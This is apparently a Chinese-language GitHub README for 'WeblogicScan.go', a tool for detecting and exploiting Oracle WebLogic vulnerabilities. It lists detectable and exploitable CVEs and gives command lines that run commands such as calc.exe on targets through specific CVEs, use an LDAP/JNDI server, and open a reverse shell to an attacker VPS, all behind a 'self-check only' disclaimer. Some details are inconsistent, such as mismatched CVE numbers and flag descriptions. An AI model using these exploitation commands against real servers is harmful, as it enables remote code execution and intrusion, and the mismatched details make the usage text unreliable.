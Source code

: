 # 👻WeblogicScan.go

只是好好的集成了一下，方便和我一样的懒人。

目前可检测的POC

```go
CVE-2014-4210
CVE-2016-0638
CVE-2016-3510
CVE-2017-10271
CVE-2017-3248
CVE-2017-3506
CVE-2018-2628
CVE-2018-2893
CVE-2018-2894
cve-2018-3191
cve-2018-3245
cve-2018-3252
CVE-2019-2725
CVE-2019-2729
CVE-2019-2890
cve-2020-2551
cve-2020-2555
cve-2020-2883
cve-2020-14750
cve-2020-14882
cve-2020-14883
cve-2023-21839
```

目前可利用的EXP

```go
CVE-2016-0638
CVE-2016-3510
CVE-2017-3248
CVE-2018-2628
CVE-2018-2893
CVE-2020-14882
cve-2020-2555
cve-2020-2883
cve-2023-21839
```

# 🐳使用示例

```md
-u url
  you target, example: 127.0.0.1
-p Port
  you target Port, example: "whoami"
-e EXP
  Exploitation alone, example: ""
-l ldap
  ldap server, example: "ldap://127.0.0.1/#eval"
-ri rip
  reverse ip
-rp rport
  reverse port
```

+ POC一键检测
```md
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -l ldap://127.0.0.1/#eval
```

+ EXP单个利用，指定EXP末尾数字即可
```go
//CVE-2023-21839
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -l ldap://127.0.0.1/#eval -e 14882

//cve-2020-2883
//cve-2020-2555
//cve-2016-0638
//cve-2016-0315
//cve-2017-3248
//cve-2018-2628
//cve-2018-2893
//cve-2020-14882
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -c calc.exe -e 2883

//cve-2020-2889
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -c -ri <vps_ip> -rp <VPS_PORT> -e 2889
```

# 👮免责声明

该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。

# 📷参考

https://github.com/0xn0ne/weblogicScanner

https://github.com/rabbitmask/WeblogicScan

https://github.com/4ra1n/CVE-2023-21839